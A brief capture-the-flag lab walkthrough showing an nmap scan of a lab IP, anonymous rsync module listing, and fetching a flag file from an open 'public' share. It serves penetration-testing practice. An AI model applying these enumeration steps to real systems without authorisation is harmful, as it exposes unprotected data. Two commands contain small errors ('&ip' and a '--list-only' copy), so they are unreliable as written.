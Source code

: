 # 1.Port Scan
ip=10.129.228.37
nmap -sV -sC  $ip
![85ac0168e45b11dc37f1ab2e819796c5.png](../_resources/85ac0168e45b11dc37f1ab2e819796c5.png)

# 2.Rsync

## rsync connect
`rsync --list-only $ip::`   
![ea43e3f51d026860d5ead2bd734b7d3c.png](../_resources/ea43e3f51d026860d5ead2bd734b7d3c.png)

## public check 
`rsync --list-only &ip::public`    
![0690187126c862805dab40ec9dbf923d.png](../_resources/0690187126c862805dab40ec9dbf923d.png)

## flag get
`rsync --list-only $ip::public/flag.txt flag.txt`
![d25ebfa5675b970b402df89104746a19.png](../_resources/d25ebfa5675b970b402df89104746a19.png)
